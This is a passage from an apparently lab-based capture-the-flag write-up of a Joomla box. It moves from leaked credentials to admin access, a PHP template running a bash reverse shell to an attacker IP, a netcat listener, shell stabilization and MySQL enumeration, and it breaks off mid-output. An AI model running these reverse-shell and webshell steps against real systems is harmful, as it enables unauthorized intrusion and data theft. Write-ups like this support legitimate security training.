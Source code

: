 https://github.com/c0d3cr4f73r/CVE-2023-23752.git


### Exploit

First thing I tried, is to SSH into the server with those credentials, but my attempt failed. After all, these credentials enabled Joomla Administrator dashboard access:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ee594bb3-8bee-4457-950f-cda5e53b116a)

Since this is a CMS, based on PHP, we'll navigate to the templates and create a PHP file/page to execute system commands, for RCE.
`System ➡ Templates ➡ Administrator Templates`.

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'");
```

Establishing a connection using netcat:

```
nc -l 4444
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/115d4dcc-ae93-432a-9c0c-8757bc1ccb78)


Stabilizing the shell:

```
export TERM=linux
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Knowing that the credentials obtained from exploiting the Joomla information leak vulnerability were for MySQL, I proceeded to connect to MySQL to explore the users' table:

```
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 26575
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;  
+-------------------------------+  
```